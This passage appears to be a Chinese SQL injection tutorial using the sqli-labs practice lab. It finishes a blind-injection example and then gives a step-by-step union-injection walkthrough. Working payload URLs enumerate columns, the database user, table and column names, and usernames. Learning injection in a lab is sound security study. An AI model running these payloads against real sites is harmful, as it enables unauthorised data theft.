 [![RYrjHS.png](https://z3.ax1x.com/2021/06/27/RYrjHS.png)](https://imgtu.com/i/RYrjHS)

反馈信息报错，以此修改113的数值，直到反馈正确信息。

[![RYrxAg.png](https://z3.ax1x.com/2021/06/27/RYrxAg.png)](https://imgtu.com/i/RYrxAg)

这里到112的时候。显示正确信息，说明数据库第一个字符的asc码为112，即P。
这里，就盲注完成了。

#### union注入

```http
union联合查询适用于有显示列的注入。

用sql-labs来学习
这是第一个
http://127.0.0.1/sqli-labs/Less-1/?id=1


一、判断是否用'做字符串引号
http://127.0.0.1/sqli-labs/Less-1/?id=1'and 1=1 --+
正常输出
出错代表没有闭合  说明没有用'  可能没有用' 或用了"或()
http://127.0.0.1/sqli-labs/Less-1/?id=1%27and%201=2--+
则是''字符串注入


二、判断它所在的数据库有几列
http://127.0.0.1/sqli-labs/Less-1/?id=1'order by 3 --+ 判断是否有3列
正常
http://127.0.0.1/sqli-labs/Less-1/?id=1'order by 4 --+ 判断是否有4列
错误
说明它输出的内容所在的数据库有3列


四、判断他显示的内容在数据库的第几列
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
则 Your Login name 在第二列 Your Password在第三列
我选择在第二列输出我想要的内容


五、查找出当前用户权限
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,user(),3 --+
root权限


六、查找当前数据库
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,database(),3 --+
当前数据库是 security


七、查找security的表名
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema ='security'),3 --+ 
表名是 emails,referers,uagents,users


八 、查找users里的字段
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'),3 --+



九、查找用户名
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,(select group_concat(username) from security.users),3 --+
```